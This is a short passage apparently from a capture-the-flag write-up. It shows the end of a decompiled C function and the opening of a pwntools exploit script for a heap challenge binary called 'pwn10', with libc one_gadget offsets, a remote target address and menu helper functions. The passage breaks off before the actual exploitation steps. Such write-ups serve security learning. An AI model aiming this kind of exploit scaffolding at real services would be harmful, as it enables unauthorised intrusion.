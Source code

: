 ```c
  }
  return __readfsqword(0x28u) ^ v7;

}
```
### exp.py

```py
#coding=utf-8
from pwn import *
import commands
context.update(arch='amd64',os='linux',log_level='DEBUG')
context.terminal = ['tmux','split','-h']
debug = 1
elf = ELF('./pwn10')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
gadgets = [0x3ac5c,0x3ac5e,0x3ac62,0x3ac69,0x5fbc5,0x5fbc6]
if debug:
    p = process('./pwn10')
else:
    p = remote('111.33.164.4',50010)

def Add(size,content):
    p.recvuntil('Give me your choice :')
    p.sendline('1')
    p.recvuntil('size :')
    p.sendline(str(size))
    p.recvuntil('content')
    p.send(content)

def Show(index):
    p.recvuntil('Give me your choice :')
    p.sendline('2')
    p.recvuntil('index :')
    p.sendline(str(index))

def Edit(index,size,content):
    p.recvuntil('Give me your choice :')
    p.sendline('3')
    p.recvuntil('index :')
    p.sendline(str(index))
    p.recvuntil('size :')
    p.sendline(str(size))
    p.recvuntil('content')
    p.send(content)

def Edit1(size,content):
    p.recvuntil('Give me your choice :')
    p.sendline('3')
    p.recvuntil('size :')
    p.sendline(str(size))
    p.recvuntil('content')
    p.send(content)

def Delete(index):
    p.recvuntil('Give me your choice :')
    p.sendline('4')
    p.recvuntil('index :')
    p.sendline(str(index))

def exp():
    Add(0x10,'a'*0x10)#0
    Add(0x10,'a'*0x10)#1
```